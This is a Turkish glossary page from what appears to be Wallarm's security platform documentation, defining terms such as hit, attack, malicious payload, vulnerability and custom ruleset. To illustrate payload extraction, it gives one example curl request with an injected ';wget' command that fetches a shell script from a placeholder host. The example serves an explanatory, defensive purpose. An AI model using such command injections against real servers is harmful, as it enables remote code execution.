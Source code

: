 # Sözlük

Sözlük, platformu daha iyi anlamanız için çekirdek Wallarm öğelerini kapsar.

## Hit

Hit, serileştirilmiş kötü niyetli bir istektir (filtreleme düğümü tarafından eklenen orijinal kötü niyetli istek ve metadata), örneğin:

![Hit örneği](images/user-guides/events/analyze-attack-raw.png)

[Hit parametreleri hakkında ayrıntılar](user-guides/events/analyze-attack.md#analyze-requests-in-an-event)

## Saldırı

Bir saldırı, aşağıdaki özelliklere göre gruplandırılan tek bir hit veya birden fazla hittir:

* Aynı saldırı türü, kötü niyetli yük taşıyan parametre ve hit'lerin gönderildiği adres. Hit'ler aynı veya farklı IP adreslerinden gelebilir ve bir saldırı türü içinde kötü niyetli yüklerin farklı değerlerine sahip olabilir.

    Bu hit gruplama yöntemi temeldir ve tüm hit'lere uygulanır.
* Uygun [tetikleyici](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack) etkinleştirildiyse aynı kaynak IP adresi. Diğer hit parametre değerleri farklı olabilir.

    Bu hit gruplama yöntemi, Brute force, Forced browsing, BOLA (IDOR), Resource overlimit, Data bomb ve Virtual patch saldırı türlerindeki hit'ler dışında tüm hit'ler için çalışır.

    Hit'ler bu yöntemle gruplandırıldığında, saldırı için [**Yanlış pozitif olarak işaretle**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) düğmesi ve [aktif doğrulama](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) seçeneği kullanılamaz.

Belirtilen hit gruplama yöntemleri birbirini dışlamaz. Hit'lerin her iki yöntemin özelliklerine sahip olması durumunda, hepsi tek bir saldırıya gruplandırılır.

Tek bir hit içeren bir saldırının örneği:

![Tek hit'li saldırı](images/glossary/attack-with-one-hit-example.png)

Birçok hit içeren bir saldırının örneği:

![Birçok hit'li saldırı](images/glossary/attack-with-several-hits-example.png)

## Kötü Niyetli Yük

Aşağıdaki öğeleri içeren orijinal bir istemin bir parçası:

* Bir istekte tespit edilen saldırı işaretleri. Bir istekte aynı saldırı türünü karakterize eden birkaç saldırı işareti tespit edilirse, sadece ilk işaret yüke kaydedilir.
* Saldırı işaretinin bağlamı. Bağlam, tespit edilen saldırı işaretlerinin önünde ve sonunda bulunan bir sembol setidir. Bir yük uzunluğu sınırlı olduğundan, bir saldırı işareti tam yük uzunluğunda ise bağlam atlanabilir.

Örneğin:

* İstek:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Kötü niyetli yük:

    ```bash
    ;wget+http://s
    ```

    Bu yükte, `;wget+` [RCE](attacks-vulns-list.md#remote-code-execution-rce) saldırı işareti ve yükün diğer parçası saldırı işaretinin bağlamıdır.

Saldırı işaretleri [davranışsal saldırıları](about-wallarm/protecting-against-attacks.md#behavioral-attacks) tespit etmek için kullanılmadığından, davranışsal saldırıların bir parçası olarak gönderilen isteklerin boş yükleri vardır.

## Güvenlik Zaafı
Bir güvenlik zaafı, bir web uygulamasını oluştururken veya uygularken ihmalkarlık veya yetersiz bilgi nedeniyle yapılan bir hata olup bilgi güvenliği riskine yol açabilir.

Bilgi güvenliği riskleri:

* Yetkisiz veri erişimi; örneğin, kullanıcı verilerini okuma ve değiştirme erişimi.
* Hizmeti reddetme.
* Veri bozulması ve diğerleri.

Internet trafiği, Wallarm'ın diğer fonksiyonlarının yanı sıra güvenlik zaafiyetlerini tespit etmek için kullanılabilir.

## Güvenlik Olayı

Bir güvenlik olayı, bir güvenlik zaafiyetinin sömürülmesi olayıdır. Bir olay, doğrulanmış bir güvenlik zaafiyetine yönelik bir [saldırı](#attack)'dır.

Bir olay, tıpkı bir saldırı gibi, sisteminizin dışında bir varlık ve dış İnternet'in, sistemin kendisinin değil, bir özelliğidir. Var olan güvenlik zaafiyetlerine yönelik saldırılar azınlık olsa da, bilgi güvenliği açısından son derece önemlidirler. Wallarm var olan güvenlik zaafiyetlerine yönelik saldırıları otomatik olarak tespit eder ve bunları ayrı bir obje - olay - olarak görüntüler.

## Dairesel Tampon
Dairesel tampon, uçtan uca bağlıymış gibi sabit boyutlu tek bir tampon kullanarak veri yapısıdır. 
[Wikipedia'ya bakın](https://en.wikipedia.org/wiki/Circular_buffer).

## Özel kural seti (eski terim LOM)

Bir özel kural seti, Wallarm düğümlerinin Wallarm Bulutu'ndan indirdiği derlenmiş güvenlik kurallarının bir setidir.

Özel kurallar, trafik işleme için bireysel kurallar ayarlamanıza olanak sağlar, örneğin:

* Hassas verileri Wallarm Bulutu'na yüklemeden önce maskele
* RegExp tabanlı saldırı göstergeleri oluştur
* Aktif bir güvenlik zaafiyetini sömüren istekleri engelleyen bir sanal yamayı uygula
* Belirli isteklerde saldırı tespitini devre dışı bırak, vb.

Bir özel kural seti varsayılan olarak boş değildir, Bulut'ta kayıtlı tüm müşteriler için oluşturulan kuralları içerir, örneğin [**Ayarlar → Genel** sekmesinde](user-guides/settings/general.md) değeri olan filtreleme modu kuralı.

[Özel kural setleri hakkında daha fazla ayrıntı](user-guides/rules/intro.md)

## Geçersiz İstek
Filtre düğümü tarafından kontrol edilen ve LOM kurallarına uymayan bir istek.

## Ters Proxy
Bir ters proxy, kaynakları bir sunucudan bir istemci adına alıp istemciye kaynakları, sanki kaynaklar Web sunucusundan geliyormuş gibi geri döndüren bir proxy sunucusu tipidir.
[Wikipedia'ya bakın](https://en.wikipedia.org/wiki/Reverse_proxy).

## Sertifika Yetkilisi
Bir sertifika yetkilisi, dijital sertifikalar veren bir varlıktır.
[Wikipedia'ya bakın](https://en.wikipedia.org/wiki/Certificate_authority).